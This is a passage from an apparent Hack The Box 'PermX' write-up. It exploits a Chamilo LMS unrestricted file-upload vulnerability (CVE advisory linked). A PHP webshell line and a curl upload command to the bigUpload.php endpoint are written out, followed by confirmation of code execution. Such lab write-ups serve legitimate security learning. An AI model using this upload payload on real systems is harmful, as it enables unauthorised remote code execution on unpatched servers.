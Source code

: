 ![Subdomain Chamilo Login](./images/subdomain-chamilo-login.png)

At the bottom right there is an administrator name “Davis Miller” with the email “admin@permx.htb”.

Looking around in google I found [this](https://starlabs.sg/advisories/23/23-4220/) CVE where you can upload file to lead to remote code execution via a webshell.

For this attack to work, the `/main/inc/lib/javascript/bigupload/files` folder must and does exist.

##### Simple PHP File

The folder is empty. Following the CVE I will create a simple PHP file returning the `id` shell command and using `curl` I will upload the file:

```bash
$ echo '<?php system("id"); ?>' > rce.php
$ curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

The `id` shell command is successfully executed, confirming the unrestricted file upload vulnerability:

![Simple PHP File Executed](./images/simple-php-file-executed.png)
